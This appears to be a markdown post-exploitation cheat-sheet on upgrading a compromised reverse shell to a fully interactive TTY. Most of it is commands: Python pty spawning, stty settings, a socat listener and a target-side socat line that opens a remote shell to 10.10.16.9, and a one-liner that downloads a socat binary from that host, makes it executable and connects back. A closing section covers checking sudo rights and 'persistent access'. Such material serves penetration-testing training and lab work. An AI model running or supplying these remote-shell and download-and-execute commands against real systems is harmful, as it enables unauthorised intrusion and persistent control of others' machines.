# Upgrade Shells to Fully Interactive

## Upgrading the shell to a fully interactive one

Upgrading shells is a crucial step after gaining initial access to a target system. A fully interactive shell provides better stability, functionality, and usability for post-exploitation activities.

### Basic Python PTY Method

The most common and reliable method uses Python's PTY module:

```bash
# Python 2
python -c 'import pty; pty.spawn("/bin/bash")'

# Python 3
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

This creates a partially upgraded shell but lacks full terminal functionality.

### Complete TTY Shell Upgrade

The full process involves four steps:

#### Step 1: Get a Basic Shell with Python

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

#### Step 2: Background the Shell

```bash
# Press Ctrl+Z to background the session
```

#### Step 3: Configure Local Terminal Settings

```bash
# In your local terminal
stty raw -echo
fg
```

Note: After typing `fg`, press Enter twice

#### Step 4: Configure Remote Terminal Settings

```bash
# In the remote shell
export SHELL=bash
export TERM=xterm-256color
stty rows 38 columns 116
```

The terminal dimensions (`rows 38 columns 116`) should match your local terminal, which you can find with:

```bash
# Check your local terminal dimensions
stty size
```

### Alternative Methods

#### Using Socat for Full TTY

First, transfer the socat binary to the target system. Then:

```bash
# On your attack machine
socat file:`tty`,raw,echo=0 tcp-listen:4445

# On the target
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.16.9:4445
```

For targets without socat installed:

```bash
# Transfer socat and create connection in one line
wget -q http://10.10.16.9:9090/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.16.9:4445
```

#### Using Script Utility

```bash
# Another method for shell upgrade
script /dev/null -c bash
```

### Common Issues and Solutions

#### No Python Available

If Python isn't available, try:

```bash
# Using script
script /dev/null -c bash

# Using expect
expect -c 'spawn bash; interact'

# Using perl
perl -e 'exec "/bin/bash";'
```

#### Resetting Terminal After Failed Upgrade

If your terminal display becomes corrupted:

```bash
# Type blindly
reset
```

#### TTY Settings on Different Shells

For non-bash shells:

```bash
# For zsh
export SHELL=zsh
export TERM=xterm-256color

# For sh (more limited)
export TERM=xterm
```

### Testing Shell Functionality

After upgrading, verify the shell functionality:

```bash
# Test command history
press up arrow to view previous commands

# Test tab completion
ls /etc/[press Tab]

# Test job control
sleep 5 &
jobs

# Test signal handling
press Ctrl+C to stop a running command
```

### Maintaining Access

Once you have an interactive shell, consider:

```bash
# Checking current user privileges
sudo -l

# Setting up a more persistent access method
echo "your_password" | sudo -S -i
```
